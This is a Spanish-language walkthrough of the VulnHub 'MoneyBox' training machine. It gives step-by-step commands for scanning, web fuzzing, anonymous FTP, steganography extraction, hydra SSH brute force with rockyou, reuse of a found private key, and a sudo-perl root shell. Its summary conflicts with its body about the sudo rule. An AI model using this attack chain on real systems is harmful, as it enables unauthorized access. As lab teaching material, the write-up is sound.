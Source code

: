```yaml
---
Title: "MoneyBox — Walkthrough"
Author: "Pxlymxrph"
Level: "Easy / eJPT-ish"
Target: "VulnHub - MoneyBox"
url: "https://www.vulnhub.com/entry/moneybox-1,653/"
Date: 2025-09-25
Tags: [ctf, vulnhub, linux, ssh, privesc, steganography, enum]
---
```


# MoneyBox — Walkthrough

**Autor:** Pxlymxrph  
**Origen:** VulnHub — MoneyBox (link arriba)  
**Objetivo:** Encontrar las 3 flags y obtener acceso root.  
**Resumen (TL;DR):**
- Descubrí la IP de la máquina en la LAN.  
- `nmap` mostró FTP (anon), SSH y HTTP.  
- Fuzzing web reveló `/blogs/`. FTP entregó una imagen con steganografía → usuario `renu`.  
- Fuerza bruta controlada con `hydra` sobre SSH → acceso `renu`.  
- Encontré `.ssh/id_rsa` → `lily`. `sudo -l` muestra `/usr/bin/python3 /opt/backup.py` NOPASSWD → uso de GTFObins/Perl para shell root.  
- Flags: user, lily, root.

## 1) Descubrimiento de red
Detecté la máquina objetivo en la red local con:

```bash
arp-scan -I eth0 --localnet --ignoredups
```

IP objetivo: **192.168.1.78**. Verifiqué cabeceras/TTL con `ping -c 1 192.168.1.78` (confirma Linux).

![1.png](Images/1.png)

## 2) Escaneo de puertos y servicios
Escaneo rápido de todos los puertos:

```bash
nmap -p- -sS --min-rate 5000 192.168.1.78 -Pn -n -vvv
```
![1.png](Images/1.png)

Escaneo con scripts en puertos detectados (21,22,80):

```bash
nmap -sCV -p21,22,80 192.168.1.78
```
![2.png](Images/2.png)

Resultados clave:
- 21/tcp FTP (anonymous)  
- 22/tcp SSH  
- 80/tcp HTTP  

## 3) Enumeración web
Reconocimiento rápido:

```bash
whatweb http://192.168.1.78/
curl "http://192.168.1.78/"
```

![3.png](Images/3.png)

Página estática con mensaje de “hacked”. Primer vistazo sin info útil.

![4.png](Images/4.png)

## 4) Fuzzing de directorios
Fuzzing con `gobuster` / `dirsearch`:

```bash
gobuster dir -u http://192.168.1.78/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50
```

Descubro `/blogs/`. En la fuente del blog aparece una nota que sugiere otra ruta.

![5.png](Images/5.png)

## 5) Pista en el HTML
Inspección manual del HTML mostró una contraseña/nota oculta en comentarios — la guardé como pista.

![6.png](Images/6.png)

## 6) FTP — descarga de imagen
Ingreso anónimo a FTP y descargo `trytofind.jpg`:

```bash
ftp 192.168.1.78
# anonymous login
get trytofind.jpg
```

![7.png](Images/7.png)

## 7) Steganografía en la imagen
Pruebo herramientas habituales:

```bash
exiftool trytofind.jpg
stegseek trytofind.jpg rockyou.txt
steghide extract -sf trytofind.jpg
```

`steghide` devuelve un mensaje y un usuario: **renu**.

![9.1.png](Images/9.1.png)

![9.png](Images/9.png)

## 8) Fuerza bruta SSH (laboratorio)
Intento controlar SSH con `hydra` (en laboratorio):

```bash
hydra -l renu -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.78
```

Obtuve la contraseña válida.

![10.png](Images/10.png)

## 9) Acceso y enumeración local
Ingreso con `renu`:

```bash
ssh renu@192.168.1.78
cat /home/renu/user.txt   # flag user
```

![11.png](Images/11.png)

## 10) Movimiento lateral hacia `lily`
Busco mas usuarios a través del `/etc/passwd` con `cat`. En `/home/renu` hallo `.ssh/id_rsa`. Uso la llave para entrar a `lily`:

```bash
cat /etc/passwd | grep "/bin/bash"
ssh -i /home/renu/.ssh/id_rsa lily@localhost
```

Accedo a `lily` y obtengo la segunda flag.

![12.png](Images/12.png)

![13.png](Images/13.png)

## 11) Escalada a root
Como `lily` ejecuto `sudo -l`:

```bash
sudo -l
# muestra: (ALL) NOPASSWD: /usr/bin/perl
```

Uso un vector conocido (GTFObins / Perl) para obtener shell root:

```bash
sudo perl -e 'exec "/bin/sh";'
```

![16.png](Images/16.png)

![17.png](Images/17.png)

Consigo shell root y la flag final.

![18.png](Images/18.png)

## Resumen de comandos clave
```bash
arp-scan -I eth0 --localnet --ignoredups
nmap -p- -sS --min-rate 5000 192.168.1.78 -Pn -n -vvv
nmap -sCV -p21,22,80 192.168.1.78
whatweb http://192.168.1.78/
gobuster dir -u http://192.168.1.78/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50
ftp 192.168.1.78
steghide extract -sf trytofind.jpg
hydra -l renu -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.78
ssh renu@192.168.1.78
ssh -i /home/renu/.ssh/id_rsa lily@localhost
sudo -l
sudo perl -e 'exec "/bin/sh";'
```

## Conclusión
MoneyBox es un reto clásico: enum → stego → brute → lateral move → sudo privesc. Buen ejercicio para pulir cadena completa de ataque y detección de vectores básicos.
